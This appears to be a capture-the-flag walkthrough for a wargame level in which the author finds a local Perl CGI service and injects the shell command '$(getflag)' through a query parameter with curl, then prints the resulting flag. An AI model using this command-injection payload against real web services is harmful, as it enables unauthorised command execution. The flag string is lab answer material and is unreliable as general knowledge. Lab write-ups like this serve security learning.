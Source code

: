 # level04

We got some intel from level00:
dr-xr-x---  2 flag04 level04  33 Mar 12  2016 level04
/var/www/level04
/rofs/var/www/level04

```shell
cat level04.pl
```

seems to indicate that a server is running on localhost:4747

```shell
service apache2 status
```

tells us that a webserver is probably running too

```shell
ls /var/www/level04
```

shows the same level04.pl script as ~/level04.pl

```shell
/etc/apache2/sites-enabled$ cat level05.conf
```

shows that the root of the webserv is containing level04.pl

```shell
curl localhost:4747?x=exploit
```

returns `exploit` meaning that we might inject some code

```shell
cat /etc/apache2/sites-enabled/level05.conf
```

shows that this code would be executed belonging to flag04 group

```shell
curl localhost:4747?x='$(getflag)'
```

gives flag:

```shell
ne2searoevaevoem4ov4ar8ap
```

